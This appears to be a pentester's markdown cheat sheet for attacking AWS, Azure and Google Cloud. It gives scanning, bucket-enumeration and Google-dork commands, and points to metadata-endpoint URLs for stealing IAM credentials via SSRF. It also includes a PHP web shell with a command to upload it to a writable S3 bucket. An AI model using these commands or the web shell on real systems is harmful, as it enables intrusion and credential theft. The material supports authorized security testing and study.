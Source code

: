# Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Hacking the Cloud](https://hackingthe.cloud/)    
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      

    bash install.sh
    python3 pacu.py
    import_keys --all    
[WeirdAAL](https://github.com/carnal0wnage/weirdAAL): Amazon Attack Library     
[AWS_Pwn](https://github.com/dagrz/aws_pwn), 

Access     
     
     CLI: using AWS access key and AWS secret key. Set as enviromental variables.     
     Web: management web portal access.      
    AWS_ACCESS_KEY_ID = AKIA{REST OF KEY}     #long term key with no expiration date     
    AWS_ACCESS_KEY_ID = ASIS{REST OF KEY}     #short term access key     
    ACCESS KEY (long or short term) + secret access key = API authentication     

Pen Testing on a web server:     

     check for web requests to s3 buckets at https://s3.amazonaws.com/{bucketname} or https://s3-{region}.amazonaws.com/{Org}         
     Config issues:   

Set up enivromental variables to use AWS CLI       

    export AWS_ACCESS_KEY=AKIA{KEY}    
    export AWS_SECRET_ACCESS_KEY= {KEY}     
    #or use the below command and input the keys as values    
    aws configure     #set up, can put temp in all values   

AWS CLI Usage    
[AWS CLI Docs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html)    

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws s3 ls s3://bucket.site.com    #list contents of a bucket    
    aws sl ls s3://bucket --region      
    aws --endpoint=http://site.com s3 ls s3://site.com   #list objects and common prefixes    
    aws sts get-caller-identity --endpoint-url http://bucket/    #user id, account and ARN    
    aws s3api get-bucket-acl --bucket bucket       
    aws s3 cp file.txt s3://bucket --profile user_profile    
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Find buckets    
[bucket_finder](https://github.com/FishermansEnemy/bucket_finder), [slurp](https://github.com/bbb31/slurp)          

    bucket_finder.rb search_term --download         
    python3 cloud_enum.py -k example.com       
Instance Metadata     

    "Metadata" endpoint: 169.254.169.254, should only be accessible from localhost. SSRF or other vulns might allow remote attacks to access it.         
    http://169.254.169.254/latest/meta-data/iam/security-credentials/     #IAM creds     
    http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>    

Lambda   

    AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
    Denonia cryptominer malware targeted Lambda.     
Post Compromise:   

    Enum permissions of access keys     
    weirdAAL - recon_module, PACU priv esc     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
https://github.com/RhinoSecurityLabs/AWS-IAM-Privilege-Escalation    
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     

